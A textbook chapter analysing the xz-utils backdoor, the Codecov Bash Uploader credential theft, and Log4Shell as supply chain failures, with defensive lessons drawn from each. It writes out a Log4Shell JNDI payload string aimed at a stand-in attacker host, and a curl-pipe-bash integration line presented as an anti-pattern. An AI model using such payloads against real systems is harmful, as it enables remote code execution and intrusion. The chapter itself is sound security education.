








# Chapter 5 — Case Studies III: xz-utils, Codecov, and Log4Shell

*What this chapter covers.* This is the third and final case-study chapter of Book 1, and
it deliberately widens the aperture. Chapters 3 and 4 examined attacks that share a shape:
an adversary tampers with an artifact — a build, a published package — and the tampered
artifact flows down the trust chain to victims. This chapter presents three incidents that
refuse to share a shape. The first, **xz-utils / CVE-2024-3094** (2024), is the most
patient and technically elegant open-source implant yet discovered: a multi-year social
engineering campaign that ended with a backdoor hidden not in source code but in binary
*test fixtures*, assembled only during the release build. The second, the **Codecov Bash
Uploader** compromise (2021), is a compromise of a third-party CI tool that ran inside
thousands of other organizations' pipelines and quietly exfiltrated their secrets for
months. The third, **Log4Shell / CVE-2021-44228** (2021), is not a supply chain *attack* at
all — no adversary implanted anything — but a latent vulnerability in a dependency so
ubiquitous and so deeply buried that the ecosystem's inability to answer "where do I even
have this?" became the story. Together they map three distinct failure modes: the
deliberate long-con implant, the compromised shared tool, and the ecosystem-wide latent
flaw you didn't know you were carrying.

Learning goals — after this chapter you should be able to:

- Reconstruct the xz-utils social-engineering timeline and explain how maintainer burnout,
  sockpuppet pressure, and a slow-built trust relationship converged to hand an adversary
  commit and release authority over a critical compression library.
- Explain the xz payload mechanism precisely: why the backdoor was invisible in the git
  tree, how the crafted `.xz` test files plus a doctored `build-to-host.m4` in the release
  *tarball* assembled malicious object code during `./configure`, and how the resulting
  hook reached `sshd` through the `liblzma` → `libsystemd` linkage on patched OpenSSH.
- Describe how Andres Freund found it — a 500ms latency regression and Valgrind noise — and
  why the discovery is best understood as extraordinary luck rather than a working control.
- Explain the Codecov Bash Uploader mechanism: the credential exposed by a Docker image
  build error, the altered uploader script, and the exfiltration of CI environment
  variables — and why `curl | bash` of a remotely hosted script is the underlying
  anti-pattern.
- Frame Log4Shell correctly as a *vulnerability*, not an implant, and articulate why "a
  known-vulnerable transitive dependency you didn't know you had" is a supply chain problem
  even absent an attacker.
- Map each incident to the controls developed later in the series: build-from-source and
  contributor trust (xz), script integrity and CI secret hygiene (Codecov), and SBOMs plus
  reachability analysis (Log4Shell).

A note on accuracy. The xz backdoor was analyzed in public within days by Andres Freund,
the openwall community, Filippo Valsorda, the FreeBSD and Debian security teams, and many
others; the mechanism is well established. Its *attribution* is not. As of this writing no
government or vendor has publicly, conclusively attributed the operation to a named actor;
the widespread assessment that it was a well-resourced, likely state-aligned effort is an
inference from tradecraft and patience, and this chapter labels it as such. The Codecov and
Log4j facts here come from Codecov's own disclosures and the Apache Log4j security
advisories respectively. No dates, CVE numbers, or figures appear that were not published
by those sources.

## Three failure modes, one supply chain

It is worth naming the three shapes before diving in, because the instinct after Chapters 3
and 4 is to look for an attacker and an artifact. Only one of these three fits that pattern
cleanly.

- **xz-utils** is a *deliberate implant*, like SolarWinds — but where SolarWinds compromised
  a build *server*, xz compromised the *maintainership* itself. The attacker did not break
  in; they were let in, over years, through the front door of open-source contribution. The
  artifact was a release tarball that differed from the public git history.
- **Codecov** is a *compromised shared tool*. Codecov itself was the victim of an initial
  breach, but the damage flowed outward to Codecov's *customers*, whose CI pipelines
  executed Codecov's altered script with full access to their own secrets. This is the
  "your CI tool is a fleet-wide dependency" failure mode.
- **Log4Shell** has *no attacker in the supply chain at all*. A ubiquitous logging library
  shipped a feature (JNDI lookups in log messages) that turned out to be a remote code
  execution primitive. The supply chain angle is entirely about *response*: once the flaw
  was public, every organization on Earth running JVMs had to answer, urgently, "do I have
  this, and where?" — and most could not.

Holding these three side by side is the point of the chapter. A mature supply chain
security program has to defend against all three, and the controls differ. You cannot SBOM
your way out of a maintainer being socially engineered, and you cannot vet contributors
your way out of a zero-day in a dependency you already trust.

## xz-utils: the anatomy of a long con

### What xz is, and why it mattered

`xz` is a command-line compression utility built on the LZMA/LZMA2 algorithms; `liblzma` is
the library underneath it. Both are part of the **xz-utils** project. If you have ever run
`tar -J`, decompressed a `.xz` file, or installed a `.deb` or `.rpm`, you have almost
certainly executed `liblzma` code. It is a foundational, boring, load-bearing piece of the
Linux userland — exactly the profile of dependency that gets installed everywhere and
thought about nowhere.

For most of its life, xz-utils was maintained by one person: **Lasse Collin** (online handle
"Larhzu"), working largely alone and unpaid. This is not unusual. An enormous fraction of
the software the world runs on top of is maintained by one or two volunteers with no
commercial backing, no security team, and finite patience. That structural fragility is not
incidental to the xz story — it is the attack surface the operation targeted.

### The social-engineering campaign

The centerpiece of the xz incident is not the malware. It is the *acquisition of trust*. A
persona operating as **Jia Tan**, using the GitHub handle **JiaT75**, began contributing to
xz-utils and adjacent projects around 2021. The contributions started small and legitimate
— the ordinary trickle of an aspiring open-source contributor — and escalated over roughly
two to three years into deep involvement in the project.

Running in parallel was a pressure campaign. Beginning around mid-2022, accounts posting as
**Jigar Kumar** and **Dennis Ens** appeared on the xz mailing lists. Their messages
followed a consistent pattern: they complained about the slow pace of xz development, about
unmerged patches, and about Collin's responsiveness, and they pushed — sometimes bluntly —
for the project to add a co-maintainer. These accounts have no independent footprint
elsewhere; they exist, in the public record, essentially only to apply this pressure. They
are widely assessed to be sockpuppets operated in coordination with the Jia Tan persona,
though as with attribution generally, this is inference from behavior rather than a
confirmed fact.

The pressure landed on a person who had, in his own words on the list, been dealing with
limited time and long-term health issues, and who was clearly stretched. In a message that
has become emblematic of the whole affair, Collin wrote that he had "not lost interest but
my ability to care has been fairly limited" and noted that xz-utils had for some time been
mostly a one-person project. The sockpuppets used exactly this opening — "you are
overloaded, you need help, here is a capable, eager contributor" — to manufacture a case
for handing authority to Jia Tan.

It worked. Over 2022 and 2023, Jia Tan's role expanded from contributor to trusted
co-maintainer. By 2023 Jia Tan was merging changes, was listed in contact/security
information for the project, and — critically — was in a position to *cut releases*. The
attacker had converted a burned-out volunteer's need for help into legitimate release
authority over a library on nearly every Linux system on the planet.



Notice how little of this is technical. There is no exploit in the social-engineering phase,
no vulnerability, nothing a scanner could flag. The entire first act of the operation is a
study in human factors: identify a critical, under-resourced project; find the one exhausted
person holding it up; and apply patient, coordinated social pressure until the project's
governance yields. From a threat-modeling standpoint, the lesson is uncomfortable: the
"contributor onboarding and trust" process of an open-source project is a security-critical
control surface, and for most projects it is entirely informal.

### The payload: where the backdoor actually lived

The technical elegance of the xz backdoor is in how thoroughly it avoided the places people
look. A reviewer reading the xz git repository would not find malicious C code. That is the
first and most important fact about this attack, and it is the one with the broadest lesson:
**the compromised artifact was the release tarball, not the version-control tree.**

Open-source C projects using the GNU Autotools build system have a long-standing convention:
the *release tarball* is not a verbatim snapshot of git. It is generated by running
`autoreconf`/`make dist`, which produces a `configure` script and various generated build
files and bundles them alongside the source. Downstream distributions overwhelmingly build
from these tarballs, not from a fresh `git clone`, precisely because the tarball is supposed
to be the blessed, self-contained, reproducible-by-convention release. That convention — the
gap between what is in git and what is in the tarball a distro actually compiles — is the
crack the payload lived in.

The backdoor was assembled from several pieces that were individually innocuous:

1. **The binary "test" files.** The xz test suite legitimately contains a collection of
   `.xz` files used to exercise the decompressor against malformed and edge-case inputs —
   corrupt streams, truncated data, and so on. Binary test fixtures for a *compression
   library* are entirely normal; nobody reviews the byte contents of a corrupt-input corpus,
   because by definition they are supposed to look like garbage. Jia Tan added crafted files
   to this corpus (notably `tests/files/bad-3-corrupt_lzma2.xz` and
   `tests/files/good-large_compressed.lzma`). These were not really test data. They were the
   backdoor's payload, compressed and lightly obfuscated, hiding in plain sight among
   legitimate junk.

2. **The build-script injection.** The release tarball's build machinery was doctored to
   assemble the payload during compilation. The key vehicle was **`build-to-host.m4`** — an
   Autotools/gettext macro file that was present in the *tarball* but not committed in the
   corresponding form to git. During `./configure`, this modified macro executed a chain of
   shell that located the crafted test files, decompressed and de-obfuscated them (a sequence
   of `tr`, `head`, `tail`, and `xz` invocations, gated on the build being a Linux `x86-64`
   GNU/`gcc` target under `deb`/`rpm` packaging), and extracted a hidden script. That script
   in turn arranged for a malicious object file to be built and linked into `liblzma`.

3. **The linked-in object code.** The net effect was that when a distribution built xz 5.6.0
   or 5.6.1 from the release tarball, on a matching target, the compiled `liblzma.so` quietly
   contained attacker-controlled machine code that was never visible in any `.c` file a human
   reviewed.



Every step was designed to be boring at the point a human might inspect it. Binary blobs in
a compression test suite: expected. An extra `.m4` macro in an Autotools tarball: expected.
Shell in `configure`: nobody reads generated `configure` output. The attack's genius was not
any single obfuscation but the systematic choice to hide each stage in a location whose
contents are, by convention, not reviewed.

### From liblzma to sshd: the runtime hook

A backdoor in a compression library is only interesting if it reaches something worth
attacking. The target was **OpenSSH's `sshd`**, and the path to it runs through a piece of
Linux packaging trivia.

Upstream OpenSSH does not link against `liblzma`. But several major distributions —
notably Debian and its derivatives, and Fedora/Red Hat — patch `sshd` to integrate with
**systemd**, so that the service can notify systemd of its readiness (`sd_notify`) and
participate in socket activation. That integration links `sshd` against **`libsystemd`**.
And `libsystemd`, in turn, has a dependency chain that pulls in **`liblzma`** (systemd uses
xz compression for, among other things, journal data). So on these patched distributions,
`liblzma` — and therefore the backdoor — ended up loaded into the address space of the
very first process that greets a remote, unauthenticated attacker: the SSH daemon.

Once resident in `sshd`, the malicious code manipulated the process's runtime symbol
resolution. Using the **GNU indirect function (IFUNC)** mechanism — a legitimate glibc
feature for selecting an implementation of a function at load time — the payload installed
itself into the resolution path and hooked into OpenSSH's authentication-related crypto,
specifically the RSA public-key verification path (`RSA_public_decrypt` and related
symbols). The hook inspected incoming authentication material; a remote party in possession
of the correct attacker private key could embed a signed, encrypted command payload in the
certificate/key presented during the SSH handshake, which the backdoor would extract and
execute — **before authentication completed**. The result was pre-authentication remote code
execution as `sshd` (typically root), gated by a key only the attacker held.



Two design choices in the runtime hook deserve emphasis, because they show the same
discipline as the build-time staging. First, the backdoor was **keyed**: it was not a
generic "anyone can log in" bypass but a private-key-gated capability, meaning that even
someone who *found* the backdoor could not trivially use it without the attacker's key. This
is operational security for the *backdoor itself* — it protects the asset from being
commandeered by third parties. Second, the code included **environment and context checks**
(is this an `sshd` process, is this a package build, is the target the expected
architecture) so the payload stayed dormant and quiet outside the precise conditions it
cared about, reducing the chance of tripping over unexpected behavior in the wild.

### The discovery: a latency regression and a stroke of luck

The backdoor was found on **March 29, 2024**, by **Andres Freund**, a PostgreSQL developer
who works at Microsoft. He was not doing security research on xz. He noticed that SSH logins
on a Debian `unstable` (sid) system had become measurably slower — on the order of ~500ms of
added latency — and that `sshd` was consuming unexpected CPU. Separately, he had seen
Valgrind produce errors related to `liblzma` under automated testing. Being the kind of
engineer who does not let an unexplained half-second go, he pulled the thread: profiled the
process, traced the slowdown into `liblzma`'s peculiar symbol behavior, and eventually
reconstructed enough of the mechanism to realize he was looking at a deliberate backdoor. He
disclosed it publicly, with analysis, on the openwall `oss-security` list that day.

It is important to be honest about what this discovery represents. It was **not** a control
working. No scanner flagged the tarball; no reproducible-build check caught the divergence
from git; no SBOM tooling raised an alarm. The backdoor was found because one unusually
capable person was bothered by a performance regression and happened to have both the skill
and the stubbornness to chase it into the crypto internals of `sshd`. The timing compounds
the luck: the backdoored 5.6.0 (February 24, 2024) and 5.6.1 (March 9, 2024) releases had
reached rolling and testing distributions — Debian sid, Fedora Rawhide/40 betas, openSUSE
Tumbleweed, Kali, some Arch derivatives — but had **not** yet propagated into the stable
enterprise releases (Debian stable, RHEL, Ubuntu LTS) where they would have sat, exploitable,
across a vast installed base for years. A few more weeks of quiet and the operation would
have graduated into the software supply chain's most sensitive tier. That it did not is a
matter of weeks and one engineer's curiosity, not of any systemic defense.

### What xz teaches

The lessons compound, and each points forward to controls developed later in the series.

- **Source ≠ tarball.** The single most transferable lesson: what a project publishes as its
  "release" may differ from its version-control history, and the difference is exactly where
  an implant can live. Building from a verified VCS checkout — or, better, **reproducible
  builds** that let anyone confirm the published artifact matches what the source produces —
  would have exposed the divergence. This is the motivation for the provenance and
  reproducibility work in Book 4 (Chapters 2–3) and for building distro packages from source
  rather than from opaque tarballs.
- **The maintainer-burnout vector is a real, exploitable attack surface.** Contributor trust
  is a security control, and for most projects it is unmanaged. Who has merge rights? Who can
  cut a release? How is a new co-maintainer vetted? These governance questions — covered in
  Book 7 on open-source ecosystem risk — are as security-relevant as any technical hardening.
- **Test fixtures and other "non-code" artifacts are hiding places.** Any file a reviewer is
  culturally trained to skip — binary blobs, generated files, minified assets, fixtures — is
  a candidate for hiding a payload. Review discipline has to account for what does *not* get
  read.
- **Critical infrastructure maintained by one unpaid person is a structural risk to
  everyone downstream.** This is not a moral observation; it is a threat model. The
  economics of open source concentrate enormous dependency weight on volunteers with no
  security resources, and adversaries have noticed.
- **Attribution is hard and should not be overclaimed.** The patience (multi-year), the
  discipline (keyed, environment-gated payload), and the coordinated sockpuppetry point
  strongly to a well-resourced, likely state-aligned actor. But as of this writing there is
  no public, conclusive attribution to a named group or government. Say what is known; label
  the rest as assessment.

## Codecov: the shared tool that ran everywhere

### What Codecov is, and the shape of the exposure

**Codecov** is a widely used code-coverage reporting service. The mechanism relevant here is
its **Bash Uploader**: a shell script that customers ran inside their CI pipelines to gather
coverage reports and upload them to Codecov. The canonical integration was exactly the
`curl | bash` pattern — fetch the script from Codecov's servers at pipeline runtime and pipe
it straight into a shell:

```bash
# The integration pattern at the heart of the incident:
curl -s https://codecov.io/bash | bash
```

Read that line as a security engineer and the problem is immediate. Every CI run fetched
*whatever script Codecov was serving at that moment* and executed it, with the full
privileges and — crucially — the full environment of the CI job. CI environments are among
the most secret-rich contexts in any organization: they hold deploy keys, cloud credentials,
registry tokens, signing keys, API tokens, and more, typically injected as **environment
variables**. A script running in that context can simply read `env` and see all of it.

### The mechanism

Codecov's own disclosure and subsequent reporting describe the chain as follows. Because of
an **error in Codecov's Docker image creation process**, a credential was exposed that
allowed the attackers to extract Codecov's own upload/deployment credentials and gain the
ability to **modify the Bash Uploader script hosted on Codecov's infrastructure**. They did
not need to compromise every customer; they needed only to alter the one script that every
customer fetched.

The modification was small and targeted. The altered uploader added a line that collected
the environment variables from the customer's CI runner and sent them — via `curl` — to a
**remote server controlled by the attackers**. In effect, every CI pipeline that ran the
uploader during the compromise window quietly shipped its secrets to a third party, as a
side effect of collecting coverage.



### Timeline and detection

The alteration was in place from roughly **late January 2021** and persisted until it was
caught on **April 1, 2021** — a dwell time of more than two months, during which every
affected pipeline leaked its environment on every run. As with xz, detection did not come
from a purpose-built control on the victim side. A **customer noticed a hash mismatch**:
they compared the checksum of the script Codecov was serving against the version published in
Codecov's GitHub repository, saw that they differed, and raised the alarm. Codecov
investigated, confirmed the compromise, rotated the exposed credentials, and disclosed.

Because the leaked material was *other organizations' secrets*, the blast radius was
inherently a fan-out: any credential that had passed through an affected CI environment
during the window had to be treated as compromised and rotated. That is a large, ill-defined
set — precisely the kind of "we don't know exactly what leaked, so rotate everything that
could have" incident that consumes weeks of engineering time across many downstream
organizations for a compromise none of them caused.

### What Codecov teaches

- **CI is a secret-rich, high-value target.** The pipeline is where code, credentials, and
  production access all meet. Treat CI secrets with the same rigor as production secrets:
  scope them tightly, prefer short-lived/OIDC-federated credentials over long-lived tokens,
  and assume any tool that runs in CI can read everything CI can see. Book 4, Chapter 6
  covers CI/CD hardening and secret hygiene in depth.
- **`curl | bash` of a remotely hosted script is an anti-pattern.** It grants the script's
  host the ability to change what your pipeline executes, at any time, with no review and no
  integrity check. The remote host becomes an unversioned, unaudited dependency with code
  execution in your environment.
- **Integrity checking would have closed the gap.** Pinning to a specific version and
  verifying a checksum — or using Subresource Integrity-style hashing, signature
  verification, or vendoring the script into your own repo — turns "whatever they're serving
  now" into "the exact bytes I reviewed." The detection itself was, tellingly, a manual hash
  comparison; making that check *mandatory and automatic* is the control.
- **A tool that runs inside everyone's pipeline is a fleet-wide dependency.** Codecov's own
  breach became thousands of other organizations' breach because of where its code executed.
  When you adopt a CI-embedded tool, you are extending your trust boundary to include that
  vendor's security posture and their ability to change their code under you.

## Log4Shell: the vulnerability you couldn't find

### Framing: this is not an attack

It is essential to frame Log4Shell correctly, because it is frequently — and incorrectly —
lumped in with the implant cases. **No one implanted Log4Shell.** There is no malicious
maintainer, no compromised build, no exfiltration. **Apache Log4j** is a legitimate,
enormously popular Java logging library, developed in the open by the Apache Software
Foundation. **CVE-2021-44228** is a *vulnerability* in it — a genuine, unintentional security
flaw in a feature that turned out to be far more dangerous than anyone had appreciated.

So why is it in a supply chain security book? Because Log4Shell is the canonical illustration
of the supply chain's **response** problem. The attack, once public, was trivial. The hard
part — the part that consumed the industry for weeks — was answering a question that sounds
like it should be easy: *"Do I have log4j-core, and where?"* For most organizations, the
honest answer was "we have no idea," and that inability is a supply chain failure independent
of any attacker.

### The vulnerability mechanism

Log4j supports **message lookup substitution**: special `${...}` syntax inside a logged
string that Log4j expands at logging time. Among the supported lookups was **JNDI** (the
Java Naming and Directory Interface), via `${jndi:...}`. JNDI can resolve names against
directory services including **LDAP** and **RMI**, and — this is the fatal part — resolving a
JNDI/LDAP reference could cause the JVM to **fetch and instantiate a remote Java class**.

Chain those facts together:

1. An application logs a string that includes attacker-controlled input. This is
   *ubiquitous* — applications log usernames, User-Agent headers, HTTP paths, chat messages,
   form fields, essentially any input, constantly.
2. The attacker's input contains `${jndi:ldap://attacker.com/a}`.
3. Log4j's lookup substitution evaluates it, performs a JNDI lookup against the
   attacker-controlled LDAP server, retrieves a reference to a remote class, and the JVM
   loads and executes it.

The result is unauthenticated remote code execution, triggered by nothing more than getting
a target to *log a string you control*. Proof-of-concept exploitation was as simple as
setting a `User-Agent` header to a JNDI string and watching the target reach out to your
server.



The vulnerability was disclosed publicly on **December 9-10, 2021**, and mass scanning and
exploitation began almost immediately — the barrier to entry was so low that opportunistic
exploitation was global within hours.

### Why finding it was the hard part

Now the distributed-systems reality. `log4j-core` is not something most teams depend on
directly and deliberately. It arrives as a **transitive dependency** — pulled in by a
framework, which is pulled in by another library, several levels deep in the dependency
graph. Worse, in the JVM ecosystem it is routinely **shaded** (repackaged under a renamed
namespace inside another artifact) and bundled into **fat/uber JARs** where it loses its
identity as a discrete dependency entirely. A `log4j-core` class can be sitting inside a
vendor's opaque application JAR, inside a container image, on a host you forgot you were
running, with no `pom.xml` entry that names it.

So the question "am I affected, and where?" decomposes into a genuinely hard inventory
problem across a large fleet:

- Which of my hundreds of services bundle a vulnerable `log4j-core` directly or
  transitively?
- Which vendor appliances and third-party JARs in my environment embed it, shaded or fat-
  jarred, where a dependency-manifest scan won't see it?
- Which running containers and hosts have a vulnerable version *loaded*, as opposed to
  merely present on disk?

Organizations that had a **Software Bill of Materials (SBOM)** — a complete, queryable
inventory of every component in every artifact they shipped and ran — could answer the first
two questions in minutes: query the SBOM corpus for `log4j-core` in the affected version
range, get a list of exactly which artifacts and services to patch. Organizations without
one — the overwhelming majority in December 2021 — were reduced to `find / -name 'log4j*'`,
grepping JARs for the vulnerable classes, and chasing vendors for statements. The gap between
those two experiences is the entire argument for SBOMs, and Log4Shell is the incident that
moved SBOMs from a compliance checkbox to an operational necessity. This is the direct
motivation for Book 3, which develops SBOM formats (SPDX, CycloneDX) and inventory practice.

### The exploitability nuance and the CVE cascade

Two refinements matter for accuracy and for how you'd actually triage this.

First, **not every deployment was equally exploitable**. Reachability mattered: the flaw is
only exploitable if attacker-controlled data actually reaches a vulnerable Log4j lookup.
Configuration mattered too — certain versions and settings changed the risk, and some
mitigations (removing the `JndiLookup` class, disabling lookups) reduced exposure without a
full upgrade. "I have the vulnerable JAR on disk" and "I am exploitable" are different
claims, and the ability to distinguish them — **reachability analysis** — is what separates a
frantic patch-everything scramble from a prioritized response. Book 2, Chapter 7 develops
reachability analysis precisely because Log4Shell showed how much noise a naïve "you have the
package" scan generates.

Second, the fix was **not a single clean patch**. The initial fix was incomplete, and the
remediation played out as a cascade of follow-on CVEs over several weeks:

| CVE | Roughly | Nature |
|-----|---------|--------|
| CVE-2021-44228 | Dec 9-10, 2021 | The original JNDI lookup RCE ("Log4Shell") |
| CVE-2021-45046 | Dec 2021 | Initial fix incomplete; further issue (DoS, and RCE in some non-default configs) |
| CVE-2021-45105 | Dec 2021 | Denial of service via uncontrolled recursion in self-referential lookups |
| CVE-2021-44832 | Dec 2021 | RCE via attacker-controlled JDBC Appender configuration (requires config write access) |

The practical consequence: teams that patched to the first "fixed" version had to patch
again, and in some cases again. Apache's guidance converged on upgrading to a version at the
end of that chain (2.17.1 addressed 44832). For anyone running the incident, this cascade is
its own lesson — "we patched Log4j" was a moving target for weeks, and without an inventory
you could not even track which of your services were on which version at any given moment.

### What Log4Shell teaches

- **A known-vulnerable transitive dependency you didn't know you had is a supply chain
  problem — even with no attacker in your chain.** The failure is one of *visibility and
  inventory*, and it is squarely a supply chain security concern.
- **SBOMs turn an emergency inventory hunt into a query.** The difference between minutes and
  weeks of response time is whether you built the inventory *before* you needed it.
- **Presence is not exploitability.** Reachability analysis prioritizes response and avoids
  drowning teams in findings for code paths attackers can't reach.
- **Fixes cascade.** Latent flaws in ubiquitous dependencies rarely resolve in one patch;
  plan for a moving remediation target and, again, for the inventory that lets you track it.

## Distributed-systems lens

Each of these incidents lands differently, and harder, at scale.

**The inventory problem (Log4Shell).** In a single application, "do I use Log4j?" is a
`pom.xml` grep. Across a platform of hundreds of services owned by dozens of teams, built in
several languages, deployed as thousands of container images to fleets of hosts, it is a
research project. The organizations that survived Log4Shell calmly were the ones who had
already made component inventory a *property of their build system* — every artifact emits an
SBOM at build time, SBOMs are stored and queryable, and "which running services contain
component X in version range Y" is a database query, not an expedition. The ones that did not
spent December 2021 doing archaeology under fire. The distributed-systems takeaway is that
inventory is not something you can produce reactively at fleet scale; it has to be a
byproduct of how you build and deploy, established before the incident that needs it.

